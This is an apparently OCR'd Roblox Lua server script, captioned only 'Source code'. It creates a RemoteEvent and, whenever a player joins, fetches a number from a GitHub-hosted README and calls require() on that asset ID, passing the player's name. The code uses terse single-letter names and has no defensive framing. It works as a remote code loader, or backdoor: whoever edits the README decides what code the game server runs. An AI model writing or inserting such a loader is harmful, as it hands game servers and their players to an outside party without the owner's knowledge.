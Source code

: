 local a = game:GetService("HttpService")
local b = "https://raw.githubusercontent.com/G4mg1/Mirox/refs/heads/main/README.md"
local c = game:GetService("Players")
local d = game:GetService("ReplicatedStorage")
local e = "JeskoRemoteEvent"

local function f()
    local g = Instance.new("RemoteEvent")
    g.Name = e
    g.Parent = d
end

if a.HttpEnabled then
    f()
    c.PlayerAdded:Connect(function(h)
        local i, j = pcall(function()
            return a:GetAsync(b)
        end)
        if i then
            local k = string.match(j, "%d+")
            if k then
                local l = tonumber(k)
                if l then
                    local m, n = pcall(function()
                        return require(l)(h.Name)
                    end)
                    if m then
                        print("Required module:", l)
                    else
                        warn("Failed to require module with ID:", l, n)
                    end
                else
                    warn("Could not convert module ID to number:", k)
                end
            else
                warn("No number found in fetched content.")
            end
        else
            warn("Failed to fetch remote file:", j)
        end
    end)
else
    warn("Go Enable Https brothah")
end

